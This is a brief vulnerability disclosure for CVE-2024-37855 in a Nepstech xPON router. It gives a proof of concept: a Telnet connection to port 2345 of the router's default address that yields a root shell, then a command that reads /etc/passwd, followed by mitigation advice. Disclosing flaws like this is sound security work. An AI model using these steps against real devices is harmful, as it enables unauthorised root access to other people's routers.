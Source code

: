 # nepstech-xpon-router-unauthenticated-rce CVE-2024-37855.
Nepstech Wifi Router xpon (terminal) NTPL-Xpon1GFEVN v.1.0  firmware v.2.0.1 allows a remote attacker to execute arbitrary code via  the router's Telnet port 2345 without requiring authentication

## Author:
Subhodeep Baroi

## Requirement:
xpon (terminal). Model No: NTPL-XPON1GFEVN       
Hardware Version: 1.0 and Firmware Version: V2.0.1

## Proof of Concept:
### 1. Connect to the Router's Network:
 Ensure your computer is connected to the router's network, either via Wi-Fi or an Ethernet cable.

### 2. Open a Telnet Client and Connect:
   telnet 192.168.1.1 2345   (telnet service running on PORT 2345 and Router default IP Address is 192.168.1.1)

### 3 Got root Shell:
 cat /etc/passwd

## Impact:
 remote code execution (root shell)

## Recommendations:
   Disable the telnet service by default or require strong authentication for telnet access. Consider recommending users to use SSH for remote management.
